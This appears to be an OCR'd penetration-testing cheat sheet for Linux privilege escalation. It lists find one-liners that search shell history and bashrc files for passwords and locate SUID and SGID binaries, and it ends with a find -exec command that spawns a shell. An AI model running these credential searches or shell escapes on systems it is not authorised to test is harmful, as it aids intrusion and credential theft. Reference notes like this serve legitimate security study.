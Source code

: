 Check history, bashrc, backup

``` bash
find / -name *history* 2>/dev/null
find / -name *bashrc* -exec grep passwod {} \; 2>/dev/null
```

Binaries That AutoElevate

``` bash
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

# find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```

Spawn shell

``` bash
find . -exec /bin/sh \;
```